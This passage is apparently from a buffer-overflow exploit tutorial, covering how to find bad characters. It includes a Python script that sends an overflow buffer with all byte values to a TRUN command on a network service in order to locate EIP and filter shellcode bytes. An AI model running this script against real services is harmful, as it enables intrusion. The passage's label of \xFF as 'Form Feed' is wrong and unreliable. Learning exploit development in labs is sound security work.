


Finding Bad Characters
Some hexadecimal characters cannot be used in shellcode because they interfere with executing the shellcode.
For example some program have characters that tell to do something and these characters could brake our shellcode.
Some common character that can brake our execution flow within the application are:
• \x00 - Null Byte. Since the vulnerability is caused by a strcpy in a C++ application, we must avoid the '\x00' character (end of line); this is because strcpy will stop the copy if it encounters these bytes.
• \x0A - Line Feed
• \x0D - Carriage Return
• \xFF - Form Feed
Change the value of
• eip_address_location with the value found in the chapter “Find the Offset”
• s.connect with address and port of the service
• s.send with the value of the command of the service
#!/usr/bin/python
import socket
import sys
from time import sleep
eip_address_location = 2003
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
buffer = 'A' * eip_address_location + 'B' * 4 + badchars
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer.'
s.send('TRUN /.:/' + buffer + '\r\n') #target the TRUN command
s.close()
except:
print '[*] Could not connect to target, exiting.'
sys.exit()
Right click on ESP register → Follow in Dump
Here we can see all the possible bad characters that the service could not like.
In the example below the are not bad characters and is like that should appear.
Example of another service that have bad characters  Bad characters that are replaced with
B0: \x04 \x05 \x28 \x44 \x45 \xB0 \xBE \xBF \xCC \xCD
Note that this service has replace these bad characters with B0 but in other service could be another string